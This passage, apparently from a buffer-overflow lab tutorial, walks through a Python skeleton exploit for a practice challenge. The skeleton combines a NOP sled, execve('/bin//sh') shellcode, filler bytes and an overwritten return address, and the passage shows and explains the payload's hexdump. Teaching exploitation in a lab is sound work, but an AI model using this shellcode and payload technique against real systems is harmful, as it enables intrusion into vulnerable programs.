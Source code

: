 
## The exploit

To create our buffer overflow string, we will need the help of a small python program.

Read the prepared exploit `challenge11-exploit.py`:
```python
#!/usr/bin/python3
# Skeleton exploit for challenge11

import sys

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";
offset = 0
ret_addr = b"\x41\x41\x41\x41"

def make(offset, ret_addr, buf_size=128):
    exploit = b"\x90" * (buf_size - len(shellcode))
    exploit += shellcode

    exploit += b"A" * (offset - len(exploit))
    exploit += ret_addr

    return exploit

exploit = make(offset, ret_addr)
sys.stdout.buffer.write(exploit)
```

Change the following two values:
```
offset = 132
ret_addr = b"\x42\x42\x42\x42"
```

And observe its output:
```sh
~/challenges/challenge11$ ./challenge11-exploit.py | hexdump -Cv
00000000  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000010  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000030  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000040  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000050  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000060  90 90 90 90 90 90 90 90  90 31 c0 50 68 6e 2f 73  |.........1.Phn/s|
00000070  68 68 2f 2f 62 69 89 e3  31 c9 31 d2 b0 0b cd 80  |hh//bi..1.1.....|
00000080  41 41 41 41 42 42 42 42                           |AAAABBBB|
00000088
```

All it does is to print a long string, consisting of three parts: 
* `0x90`: The NOP Sled
* Followed by the shellcode, starting from `0x31 0xc0`
* `0x41` = "A" fill material between buffer and SIP which can get trashed
* `0x42` = "B" where the SIP / return address should be put
